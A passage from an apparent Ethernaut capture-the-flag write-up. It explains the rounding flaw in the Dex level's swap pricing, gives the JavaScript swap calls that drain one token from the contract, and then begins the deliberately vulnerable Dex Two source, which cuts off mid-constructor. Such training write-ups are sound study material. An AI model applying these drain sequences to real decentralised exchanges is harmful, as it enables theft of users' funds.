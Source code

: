 To solve this level we need to drain any one of the token1 or token2 from the contract .

Initially the player has 10 of each tokens and contract has a 100 of each tokens.

If we swap our 10 tokens of token1 with 10 tokens of token2 we get 20 tokens of token2 and 0 of token1 and the contract has 110,90 of token1 and token2 respectively.

if we calculate the `getSwapPrice` for 20 tokens of token2 , we get 24.

Like this we can get more tokens with the getSwapPrice function for every Swap .

```js
let t1 = await contract.token1();
let t2 = await contract.token2();
await contract.swap(t1,t2,24);
await contract.swap(t2,t1,30);
await contract.swap(t1,t2,41);
After this we get 65 tokens of token2 , the getSwapPrice is 158 , the contract have only 110 if we swap 45 tokens of token2 we get the 110 tokens of token1.
await contract.swap(t2,t1,45);
After this the tokens of token1 in the contract becomes 0.
```

## 23 Dex Two

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';
contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}
  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }
  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}
contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
```